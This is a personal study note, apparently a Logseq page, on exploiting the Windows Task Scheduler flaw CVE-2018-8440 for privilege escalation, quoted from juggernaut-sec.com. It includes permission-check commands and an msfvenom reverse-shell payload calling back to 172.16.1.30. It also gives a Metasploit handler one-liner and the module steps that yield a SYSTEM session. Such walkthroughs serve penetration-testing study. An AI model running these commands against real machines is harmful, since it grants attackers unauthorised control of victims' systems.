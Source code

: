 public:: true tags:: metasploit, windows, task, privesc

* \#+BEGIN_QUOTE *From [juggernaut-sec.com](https://juggernaut-sec.com/scheduled-tasks/#CVE-2018-8440_%E2%80%93_A_Scheduled_Task_Kernel_Exploit)* #+END_QUOTE
* `CVE-2018-8440` is a vulnerability that affects Windows versions up to 1803 as well as Windows Server 2008, 2012, and 2016.
* This exploit leverages **weak permissions** of the `C:\windows\tasks` folder as well as **a flaw** in the Task Scheduler API function “SchRpcSetSecurity”. Essentially, this flaw allows a standard user to call the API function and set file permissions on any local file they want.
* You need to check the `C:\Windows\Tasks` folder permissions using either `icacls` or `accesschk`. logseq.order-list-type:: number You need both *Read* and *Execute* as well as write permissions for the authenticated users group.
  * With `icacls` logseq.order-list-type:: number

    ```
    icacls "C:\Windows\Tasks"
    
    ```

    ![](https://juggernaut-sec.com/wp-content/uploads/2022/06/image-296.png)
  * With `accesschk` logseq.order-list-type:: number

    ```
    .\accesschk64.exe -wvud "C:\WIndows\Tasks"
    
    ```

    ![](https://juggernaut-sec.com/wp-content/uploads/2022/06/image-297.png)
* Exploit it via Metasploit logseq.order-list-type:: number
  * Create a payload with `mfsvenom` logseq.order-list-type:: number

    ```
    msfvenom \
    	-p windows/x64/shell_reverse_tcp \
        LHOST=172.16.1.30 \
        LPORT=443 \
        -a x64 \
        --platform Windows \
        -f exe \
        -o meterpreter64.exe
    
    ```
  * Upload the payload to the target machine logseq.order-list-type:: number
  * Start a mult-handler with `msfconsole` logseq.order-list-type:: number

    ```
    msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST 172.16.1.30;set LPORT 443;exploit;"
    
    ```
  * From here we need to use the following commands to background our meterpreter session and load up the `CVE-2018-8440` module logseq.order-list-type:: number

    ```
    background
    search ALPC
    use 0
    set SESSION 1
    set LHOST 172.16.1.30
    set LPORT 8080
    
    ```

    ![](https://juggernaut-sec.com/wp-content/uploads/2022/06/image-301-1024x746.png)
  * Everything is set and all we need to do is issue the \*\*exploit \*\*command and we should see a second meterpreter session check in as SYSTEM logseq.order-list-type:: number ![](https://juggernaut-sec.com/wp-content/uploads/2022/06/image-302.png){:height 224, :width 747}